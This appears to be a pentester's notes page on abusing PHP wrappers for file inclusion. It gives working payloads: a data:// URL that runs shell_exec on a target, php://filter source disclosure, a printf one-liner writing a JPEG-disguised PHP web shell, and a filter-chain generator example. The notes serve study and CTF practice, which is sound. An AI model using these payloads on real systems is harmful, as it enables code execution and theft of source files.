```yaml
---
description: >-
  PHP Wrappers
title: PHP Wrappers              # Add title here
date: 2023-02-01 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, PHP Wrappers]                     # Change Templates to Writeup
tags: [exploitation, php, wrapper]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

## Wrappers
### data
Represent a string on the web page
```bash
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```
![Description](/assets/img/Pasted image 20220905144914.png)
Shell with data
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
![Description](/assets/img/Pasted image 20220905144942.png)

### php://filter
Read file with base64 encode:
```php
php://filter/convert.base64-encode/resource=index.php
```
Examples:
[[StreamIO#^c6abe1]]
[[StreamIO#^56bdc2]]
[[StreamIO#^2912d9]]
[[StreamIO#^6f66d1]]

### Bypassing restrictions
Using magic number to bypass jpeg restriction:
```bash
printf '\xff\xd8\xff<?=`{$_GET["cmd"]}`;>' > sploit.php
```
Examples:
[ECHO CTF Cupidme](https://echoctf.red/target/33/writeup/read/7)

### PHP FILTER CHAIN GENERATOR
An excellent option to create a wrapper is by appending encoding wrappers for every character, this can be done with 
[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
$ php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|/resource=php://temp');"
cwwwwcGyQpQw+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+AD0APQ-
```

### Common Attacks
![Description](/assets/img/Pasted image 20220811010103.png)

